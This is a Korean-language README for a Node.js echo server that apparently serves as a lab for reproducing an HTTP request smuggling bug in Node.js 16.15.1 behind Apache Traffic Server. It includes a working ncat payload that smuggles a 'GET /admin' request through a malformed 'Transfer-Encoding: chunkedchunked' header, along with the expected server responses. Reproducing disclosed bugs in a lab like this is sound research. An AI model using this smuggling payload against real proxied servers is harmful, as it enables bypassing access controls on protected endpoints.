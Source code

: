 # Backend (Node.js 서버) README

요구사항:

- Node.js 16.15.1 (이보다 높은 버전은 파서 버그가 패치되어서 스머글링 불가능)

(예전 버전에서 16.5.1이라고 썼던 건 오타입니다.)

테스트 서버 실행:

``` console
node test.js 3000
```

여기서 3000은 포트번호 예시입니다. 첫 번째 인수를 포트번호로 받습니다.

그냥 요청 URL, Header, Length, Body를 그대로 되돌려주기만 합니다.

로컬에서 실행했을 때에는, Windows Powershell과 [NMap](https://nmap.org/ncat/)의 ncat을 사용해서 [파싱 버그를 재현](https://hackerone.com/reports/1524555)했었습니다.

``` console
echo "GET / HTTP/1.1`r`nTransfer-Encoding: chunkedchunked`r`n`r`n26`r`nGET / HTTP/1.1`r`nContent-Length: 30`r`n`r`n`r`n0`r`n`r`n`r`nGET /admin HTTP/1.1`r`n" | ncat localhost 3000
```

이렇게 요청했을 때 응답이 이래야 합니다:

응답 1번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 10:17:28 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 153

{
  "URL": "/",
  "Headers": {
    "transfer-encoding": "chunkedchunked"
  },
  "Length": 38,
  "Body": "GET / HTTP/1.1\r\nContent-Length: 30\r\n\r\n"
}
```

응답 2번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 10:17:28 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 68

{
  "URL": "/admin",
  "Headers": {},
  "Length": 0,
  "Body": ""
}
```

중요한 건 ATS가 첫 번째 요청을 무시하면서 그걸 노드에 그대로 전달해주는지 마는지네요.
